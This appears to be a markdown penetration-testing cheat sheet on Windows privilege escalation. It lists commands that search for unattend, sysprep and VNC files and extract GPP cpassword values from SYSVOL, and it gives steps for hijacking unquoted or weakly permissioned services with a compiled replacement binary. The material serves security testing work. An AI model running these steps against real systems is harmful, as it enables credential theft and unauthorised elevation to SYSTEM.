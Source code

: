 ### Many checks in one (w00t!)
- https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
- https://github.com/AlessandroZ/BeRoot

### Unattended Installs
```
dir C:\*unattend.xml /s
dir C:\*sysprep.xml /s
dir C:\*sysprep.inf /s
dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b
dir c:\ /s /b | findstr /si *vnc.ini
```

### Group Policy Preference
- Included in PowerSploit/PowerUp (https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)

1. Look for *Groups.xml* files inside \\<dc_fqdn>\SYSVOL
```
findstr /S /I cpassword \\<dc_fqdn>\SYSVOL\<dc_fqdn>\policies\*.xml
```

2. Crack them with https://github.com/BustedSec/gpp-decrypt

### Services
- Included in PowerSploit/PowerUp (https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
- Included in BeRoot (https://github.com/AlessandroZ/BeRoot)

#### Unquoted service paths
1. Find vuln service
```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

2. Exploit - we'll suppose the vuln service's path is: C:\<path>\Vuln Folder\vuln.exe
- Edit and compile https://github.com/bik3te/Scripts/blob/master/windows_service.c
- Copy the compiled service in C:\<path>\Vuln.exe

3. Restart

#### Weak folder permissions
0. Supposed we have the rights to write in C:\<path>\vuln_service.exe
```
accesschk.exe -dqv "C:\<path>\" (from SysInternals)
```
1. Edit and compile https://github.com/bik3te/Scripts/blob/master/windows_service.c
2. Rename vuln_service.exe to vuln_service.exe.bak
3. Copy pwn.exe in the folder and rename it to vuln_service.exe
4. Restart

#### Weak service permissions
0. Suppose we can start/stop/restart vuln_service which is running as NT-SYSTEM
```
sc qc vuln_service
accesschk.exe -ucqv vuln_service
```
